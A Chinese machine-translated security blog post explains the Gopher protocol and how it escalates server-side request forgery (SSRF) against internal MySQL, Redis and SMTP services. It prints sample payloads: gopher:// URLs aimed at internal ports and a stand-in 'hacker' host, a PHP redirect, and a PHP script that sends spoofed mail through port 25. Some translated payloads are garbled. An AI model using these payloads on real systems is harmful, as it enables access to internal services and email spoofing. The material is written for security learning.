

# Gopher 如何在逐步升级的 SSRFs 中工作

> 原文：<https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630?source=collection_archive---------0----------------------->


来源:谷歌

我们都知道 HTTP 和 HTTPS，但有多少人见过野生的地鼠呢？我们经常用它来绕过和升级服务器端的请求伪造。好吧，信不信由你，Gopher 是在 1991 年作为互联网上第一个运行在 TCP/IP 网络之上的数据/文件访问协议而被构想出来的。所以，这个博客是基于理解和它在野外的使用:)

在我们了解 Gopher 如何工作之前，理解它实际上是什么以及它与 HTTP 和 HTTPS 有什么不同是非常重要的。Gopher 是一种应用层协议，能够提取和查看存储在远程 Web 服务器上的 Web 文档。当它出现时，它是为在 IP 网络中分发、搜索和检索文档而设计的。Gopher 的设计功能和外观都很像一个可挂载的只读全局，任何可以在 [**CD-ROM**](https://en.wikipedia.org/wiki/CD-ROM) 上完成的数据文件都可以在 Gopher 上完成。一个地鼠系统由一系列**层级超链接菜单**组成。菜单项和标题的选择由服务器管理员控制。如果你想对它进行深度阅读，可以在这里找到:- [***Gopher 协议***](https://en.wikipedia.org/wiki/Gopher_(protocol)) ***。***

现在，让我们看看它是如何工作的。Gopher 类似于另一种互联网协议，[文件传输协议](https://en.wikipedia.org/wiki/File_Transfer_Protocol) (FTP)，因为它通过 TCP/IP 互联网(如互联网)远程访问文件。但是，虽然一个 FTP 站点只存在于一台服务器上，并且可以有许多不同的 FTP 站点，但实际上只有一个分布式 Gopher 文件系统。这是它的主要区别。Gopher 文件系统是世界上所有 Gopher 服务器的单一集合。每个 Gopher 服务器都可以作为分层分布式文件系统的根。为了访问文件或文档，使用 Gopher 客户机的人键入可访问的 Gopher 服务器的 URL。查看下图以更好地理解它:



来源:谷歌

可以实现多个数据包的整合传输，然后由 gopher 服务器将多个数据包捆绑发送给客户端。这是它的菜单响应。例如，使用 gopher 协议的 curl 命令可以操作 mysql 数据库或完成对 redis 的攻击。gopher 协议使用 tcp 进行可靠的连接。Gopher 可访问的信息作为文件存储在 **Gopher 服务器**上。它以类似于计算机(如 Windows PC 或 UNIX 工作站)的文件系统树的分层方式进行组织。正如文件系统由包含文件和子目录(子文件夹)的顶级目录(或文件夹)组成一样，Gopher 服务器将信息呈现为包含资源(如文件)的顶级目录和/或包含附加资源的子目录。通过在彼此的资源层次结构中提及不同服务器上的资源，可以使用将它们链接在一起。也有可能创建“虚拟”资源，就像它们是文件一样，例如允许搜索 Gopher 服务器的程序。gopher url 格式是:

**地鼠://:/**

它是用于表示 url 资源类型的单个字符。在常见的安全测试中发现，不管这个字符是什么，都无所谓，只要有就行。可以理解为 http 协议的前身或者简化版。**虽然它很古老，但现在许多图书馆都支持 gopher 协议，而且 gopher 协议非常强大。**

现在，我们将看到 Gopher 如何方便地利用 SSRFs。你一定见过 SSRF 的有效载荷是这样的:

**地鼠://127 . 0 . 0 . 1:1337/_ SSRF % 0a 测试！**

使用这个协议，您可以指定您希望监听器**发送**的 **ip、端口和字节**。然后，你基本上可以利用一个 SSRF 来**与任何 TCP 服务器**通信(显然你需要先知道如何与服务对话)。gopher 协议支持发送 get 和 post 请求:可以先截取 GET 请求包和 POST 请求包，形成符合 gopher 协议的请求。gopher 协议是 ssrf 应用中最强大的协议。

这里有一个例子，如果应用程序以某种方式使用 Mysql 数据库，你很有可能在 Gopher 的帮助下利用 SSRF。**原因？** MySQL 数据库用户认证采用挑战/响应模式。服务器生成挑战号并将其发送给客户端。客户端用挑战号加密密码，并返回相应的结果。然后服务器检查结果是否与预期的相同，从而完成用户认证过程。登录需要服务器发送的加密密码，但是当数据库用户密码为空时，加密密码也为空。客户端发送给服务器的认证包是相对固定的。这样就不需要交互了，可以通过 gopher 协议发送:)

有了它，**我们可以使用 gopher://与 MySQL 数据库**进行通信。因此，一旦你做了一些侦察，并意识到你有一个 Mysql，你可以绑定不同有效载荷的 Gopher 来监听。一些例子是:

*   **带 HTTP 的地鼠:**

```
gopher://yourproxyserver:8080/_GET http://hacker:80>/x HTTP/1.1%0A%0Agopher://yourproxyserver:8080/_POST%20http://hacker:80/x%20HTTP/1.1%0ACookie:%20hacked%0A%0Ayou+are+hacked
```

*   **带 SMTP 的地鼠:**

```
<?phpheader(“Location: gopher://yoursite:1337/_SSRF%0ATest!”);?>
```

**在**上查询:

https://anysite.com/?q = http://hacker . com/redirect . PHP。

*   **你也可以像这样使用它，它也会发送一封邮件:**

```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );        $payload = implode('%0A', $commands);        header('Location: gopher://0:25/_'.$payload);
?>
```

这些是互联网上的一些例子，这完全取决于你如何利用它。无论如何，Gopher 在利用 SSRFs 方面确实很方便，在阅读本文之后，如果您看到类似的案例，您可能会想进一步利用它。github 上有一个很棒的工具，可以帮助你生成 Gopher 链接，在这种情况下非常有用。我更喜欢手工测试，但是你可以随时检查什么更适合你。下面是链接: [**Gopherus**](https://github.com/tarunkant/Gopherus) 。

我希望你能从这个博客中得到一些新的东西，因为几个星期以来我一直在考虑写点什么。如果你喜欢这个博客，分享它，让人们知道一些新的东西。这将是这一个，我有更多的博客想法，正在努力:)如果你对这个博客或我的任何博客有任何疑问或建议，请随时在 [**Twitter**](http://twitter.com/manasH4rsh) 上 ping 我。我真的很感谢你们给我的建议:)再见！

注意安全，祝黑客愉快:)

再见，❤